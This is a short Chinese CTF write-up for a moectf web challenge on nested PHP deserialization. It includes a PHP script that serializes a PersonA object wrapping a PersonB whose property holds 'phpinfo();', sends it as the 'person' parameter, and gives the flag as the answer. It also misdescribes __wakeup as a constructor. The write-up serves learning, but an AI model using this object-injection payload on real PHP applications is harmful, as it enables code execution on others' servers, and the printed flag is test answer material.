 # Web-18｜第十八章 万卷诡阁·功法连环

## 碎碎念

套娃 php 反序列化
***
## Writeup

可以看到套了两层，真正需要调用的是 PersonB 的 work 函数，`__wake_up` 函数指的是函数构造函数，因此我们嵌套得到：

```php
<?php
class PersonA {
    public $name;
}
class PersonB {
    public $name;
}

$person = new PersonA();
$person->name = new PersonB();
$person->name->name = 'phpinfo();';
echo urlencode(serialize($person));
?>
```

传入参数 person 得到 flag：

![](../../../../assets/Pasted%20image%2020251029170642.png)

最终 flag：`moectf{1aaa4070-587a-817b-ad13-78d669657b0e}`